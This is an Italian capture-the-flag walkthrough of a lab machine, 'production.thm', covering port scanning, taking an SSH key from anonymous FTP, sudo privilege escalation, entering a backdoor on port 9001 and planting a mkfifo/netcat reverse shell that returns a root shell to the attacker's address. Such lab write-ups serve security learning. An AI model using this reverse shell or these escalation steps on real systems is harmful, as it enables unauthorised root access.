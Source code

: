 # PRODUCTION

### ENUM
facciamo uno scan delle porte
```bash
nmap production.thm -sV -sC 
```

troviamo un ftp con accesso anonimo vediamo cosa c'è dentro

## FTP

```bash
ftp Anonymous@production.thm
```
ottimo abbiamo una flag e delle credenziali ssh per ashu

prendiamo l'id_rsa

```bash
get id_rsa
```

diamogli i permessi giusti 

```bash
chmod 600 id_rsa
```
colleghiamoci in ssh

## SSH
```bash
ssh -i id_rsa ashu@10.10.224.175
```

facciamo privesc

## privesc

```bash
sudo -l
```
OTTIMO possiamo switchare utente come skidy

```bash
sudo su skidy
```

andiamo nella directory di skidy

abbiamo trovato una directory che si chiama homework. entriamoci!

abbiamo un file python, leggiamo cosa c'è scritto

c'è un password per un backdoor sulla porta 9001 a quanto pare 

vediamo skidy cosa può eseguire come sudo

```bash
sudo -l
```

possiamo eseguire il comando git come sudo(andate a guardare su gtfo.bins) 


ora pensiamo alla backdoor

## backdoor

tramite la shell root colleghiamoci alla porta 9001
```bash
nc 10.10.224.175 9001
```

usiamo la password trovata nel file python di prima

siamo dentro!

usiamo un reverse shell per la porta 9002
```bash
echo "#!/bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ipvostro portainascolto >/tmp/f" > /tmp/a; chmod +x /tmp/a
```
apriamo un altro terminale e mettiamoci in ascolto sulla porta 9002
```bash
nc production.thm 9002
```
poi apriamo un altro terminale e mettiamoci in ascolto sulla reverse shell che abbiamo creato prima 

```bash
nc -lvnp porta scelta nella reverse shell
```

sul primo terminale qundi quello avviato sulla porta 9002 mandiamo il comando
```bash
/tmp/./a
```
questo comando avvierà una reverse shell con privilegi di root sul vostro terminale su cui vi eravati messi in ascolto




